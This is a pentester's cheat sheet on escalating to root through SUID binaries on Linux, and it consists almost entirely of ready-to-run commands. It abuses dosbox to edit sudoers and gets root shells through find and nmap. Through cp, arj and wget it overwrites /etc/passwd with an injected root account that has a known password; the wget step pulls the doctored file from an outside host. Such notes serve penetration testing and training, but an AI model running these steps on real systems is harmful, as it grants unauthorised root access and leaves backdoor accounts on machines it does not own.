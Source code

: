 ```yaml
---
description: Using programs which has SUID bit to root shell.
---
```


# SUID

```
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io" %}

### dosbox

```
$ dosbox -c 'mount c /etc' -c 'echo test ALL=(ALL) ALL >> C:\sudoers' -c exit
```

### find

```
find . -exec /bin/sh -p \; -quit
```

### cp

[https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/)

```
$ openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1

$ mkdir /tmp/privesc && cd /tmp/privesc
$ cp /etc/passwd .
$ cp passwd passwd.bak

$ echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> ./passwd
$ cp ./passwd /etc/passwd

$ su ch
password: pass123

# Restoring the original
$ cp /tmp/privesc/passwd /etc/passwd && rm -rf /tmp/privesc
```

### nmap

```
$ nmap --interactive
nmap> !sh

-----------------------

$ TF=$(mktemp)
$ echo 'os.execute("/bin/bash")' > $TF
$ nmap --script=$TF

-----------------------

$ echo 'os.execute("/bin/sh")' > /tmp/x.nse
$ nmap --script /tmp/x.nse
```

### wget

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/wget
```

Copy contents of /etc/passwd to your host as passwd.

Add this user with this command:

```
echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> passwd
```

**ch:pass123**

```
$ wget http://192.168.49.60/passwd -O /etc/passwd
$ su ch
password:pass123
```

### arj

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/arj

$ cd /tmp
$ cp /etc/passwd passwd
$ echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> passwd
$ arj a priv passwd
$ arj x priv.arj /etc/
→ Yes

$su ch
Password: pass123
```
